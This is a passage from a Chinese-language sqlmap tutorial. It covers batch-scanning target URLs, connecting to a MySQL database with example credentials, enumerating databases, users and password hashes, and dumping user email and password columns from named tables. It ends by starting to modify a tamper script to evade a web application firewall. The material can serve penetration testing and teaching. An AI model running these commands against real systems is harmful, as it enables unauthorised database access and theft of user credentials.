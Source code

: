     将目标url搜集并整理为txt文件，如图4所示，所有文件都保存为tg.txt，然后使用“sqlmap.py-m tg.txt”，注意tg.txt跟sqlmap在同一个目录下。
    
    图4批量整理目标地址.jpg
    
    图4批量整理目标地址
    
        

### 1.4.2 直接连接数据库

    sqlmap.py -d"mysql://admin:admin@192.168.21.17:3306/testdb" -f --banner --dbs--users
    
        

### 1.4.3数据库相关操作

    1.列数据库信息：--dbs
    
    2.web当前使用的数据库--current-db
    
    3.web数据库使用账户--current-user
    
    4.列出sqlserver所有用户 --users
    
    5.数据库账户与密码 --passwords
    
    6.指定库名列出所有表  -D database --tables
    
    -D：指定数据库名称
    
    7.指定库名表名列出所有字段 -D antian365-T admin --columns
    
    -T：指定要列出字段的表
    
    8.指定库名表名字段dump出指定字段
    
    -D secbang_com -T admin -C  id,password ,username --dump
    
    -D antian365 -T userb -C"email,Username,userpassword" --dump
    
      可加双引号，也可不加双引号。
    
    9.导出多少条数据
    
    -D tourdata -T userb -C"email,Username,userpassword" --start 1 --stop 10 --dump 
    
    参数：
    
    --start：指定开始的行
    
    --stop：指定结束的行
    
    此条命令的含义为：导出数据库tourdata中的表userb中的字段(email,Username,userpassword)中的第1到第10行的数据内容。
    
        

## 1.5 SQLMAP实用技巧

### 1\. mysql的注释方法进行绕过WAF进行SQL注入

    （1）修改C:\Python27\sqlmap\tamper\halfversionedmorekeywords.py
    
    return match.group().replace(word,"/*!0%s" % word) 为：
    